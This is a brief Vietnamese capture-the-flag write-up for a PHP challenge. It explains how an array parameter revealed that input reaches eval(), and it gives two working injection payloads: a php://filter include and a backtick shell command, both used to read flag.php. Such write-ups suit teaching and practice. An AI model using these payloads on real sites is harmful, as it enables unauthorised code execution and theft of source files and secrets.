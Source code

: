 # giới thiệu
Cũng không có gì ngoài 1 cái ảnh nhưng được gợi ý ở đây là ngay ở phần tên và tên file trên trang web /xchall.php .
# solution
 Đây là 1 bài php và có thể là command injection  
Bài này cũng phải tìm param như bài trước sau đó thực hiện injection  
Khi thay đổi parameter từ ?name= sang ?name[]= điều đó làm thay đổi parameter từ string sang array điều này gây ra lỗi và thể hiện ra rằng các giá trị của parameter đang được chuyển tới hàm eval()
Tiếp theo sử dụng các công cụ dirscan để tìm ra cờ là flag.php .Sử dụng kĩ thuật **php wrapper** để lấy bài flag
final solution  

```/xchal.php?name=".include($_GET['a']);$name="&a=php://filter/convert.base64-encode/resource=flag.php```  
or
```http://34.18.3.149:8000/xchal.php?name=`%22%26%26+var_dump(`base64%20flag.php`);%23;````
# Lưu ý sau khi giải những bài sau
